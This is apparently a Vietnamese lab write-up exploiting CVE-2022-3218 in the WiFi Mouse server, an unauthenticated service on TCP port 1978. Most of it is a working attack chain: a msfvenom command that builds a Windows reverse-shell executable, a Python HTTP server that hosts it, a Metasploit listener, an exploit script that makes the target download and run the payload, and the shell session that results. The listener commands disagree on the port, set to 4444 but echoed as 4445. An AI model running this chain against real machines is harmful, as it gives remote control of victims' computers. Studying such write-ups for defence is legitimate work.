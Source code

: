 ### CVE-2022-3218 – WiFi Mouse Remote Code Execution
- 1. WiFi Mouse là gì?

WiFi Mouse là một ứng dụng cho Windows/Android/iOS cho phép biến điện thoại thành chuột & bàn phím không dây.

Máy tính chạy WiFi Mouse server (mở port 1978 TCP).

Điện thoại kết nối đến server này để gửi lệnh điều khiển (di chuyển chuột, gõ phím…).

- 2. Lỗ hổng (Vulnerability)

Vấn đề nằm ở dịch vụ trên port 1978.

Server không có xác thực → bất kỳ ai trong cùng mạng có thể kết nối.

Các lệnh gửi đến service được xử lý trực tiếp, trong đó có lệnh chạy file thực thi.

Kẻ tấn công có thể gửi payload tùy ý để thực thi mã từ xa (RCE).
- Sau đí tôi tạo 1 payload revshell
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.34.216 LPORT=4445 -f exe -o payload.exe
```
- 49601.py là 1 file chạy bằng python2 , nó lợi dụng lỗ hỏng để yêu cầu mục tiêu tải revshell về
```
  ┌──(kai0kid㉿Kai0Kid)-[~/Temp]
└─$ python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```
 trước khi khởi động thì ta cần mở 1 cổng lắng nghe , có rất nhiều cách như sài nc hoặc các công cụ khác nhưng tôi chọn msfconsole 
```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PaYLOAD windows/x64/shell_reverse_tcp
PaYLOAD => windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.8.34.216
LHOST => 10.8.34.216
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4445
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.8.34.216:4445
```
- Sau đó tôi bắt đầu khởi động CVE :
```
python2 49601.py 172.20.15.149 10.8.34.216 payload.exe #172.20.15.149 là ip mục tiêu , 10.8.34.216 là ip kẻ tấn công
[+] 3..2..1..
[+] *Super fast hacker typing*
[+] Retrieving payload
[+] Done! Check Your Listener?
```
- Kết quả là tôi nhận được shell
```
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.8.34.216:4445 
[*] Command shell session 1 opened (10.8.34.216:4445 -> 172.20.15.149:51133) at 2025-09-20 09:45:20 +0700

Shell Banner:
Microsoft Windows [Version 10.0.19045.3930]
-----

C:\Windows\system32>whoami
whoami
desktop-bg4o059\harry
```